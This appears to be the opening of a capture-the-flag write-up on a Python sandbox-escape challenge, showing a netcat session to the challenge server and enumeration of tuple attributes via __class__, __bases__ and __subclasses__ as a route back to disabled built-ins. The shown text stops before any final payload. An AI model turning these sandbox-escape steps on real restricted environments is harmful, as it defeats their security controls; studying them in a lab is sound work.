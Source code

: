 > **_NOTE:_**  
with built-ins names disabled, () is still an object literal they can use to gain access to most of them

 
well, its challenging  but first we need to enumerate tuple so we can see how many of attributes and methods we can use.

```
malwarepeter@spaceX:~$  nc 16.16.65.31 31000
Initializing Playground...
.......
.......

Welcome to the Cyberlympic Phase2 jail! Type your commands below:
But remember, your code will be closely watched!
>>> print(dir(()))
['__add__', '__class__', '__contains__', '__delattr__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__getitem__', '__getnewargs__', '__getslice__', '__gt__', '__hash__', '__init__', '__iter__', '__le__', '__len__', '__lt__', '__mul__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__rmul__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', 'count', 'index']
>>> print(dir(().__class__))
['__add__', '__class__', '__contains__', '__delattr__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__getitem__', '__getnewargs__', '__getslice__', '__gt__', '__hash__', '__init__', '__iter__', '__le__', '__len__', '__lt__', '__mul__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__rmul__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', 'count', 'index']
>>>
```

`print(dir(().__class__))` returned tuple class

well there builtin class called `__bases__`  used to get direct superclasses of a class,

> **_NOTE:_**  
Python provides a __bases__ attribute on each class that **can be used to obtain a list of classes the given class inherits**. The __bases__ property of the class contains a list of all the base classes that the given class inherits

so here from docs

```
instance.__class__ : The class to which a class instance belongs.

class.__bases__ : The tuple of base classes of a class object.

class.__subclasses__() : Each class keeps a list of weak references to its immediate subclasses. This method returns a list of all those references still alive. The list is in definition order. 
```

lets eximine

```
malwarepeter@spaceX:~$  nc 16.16.65.31 31000
Initializing Playground...
.......
.......

Welcome to the Cyberlympic Phase2 jail! Type your commands below:
But remember, your code will be closely watched!


>>> print(().__class__)
<type 'tuple'>

```
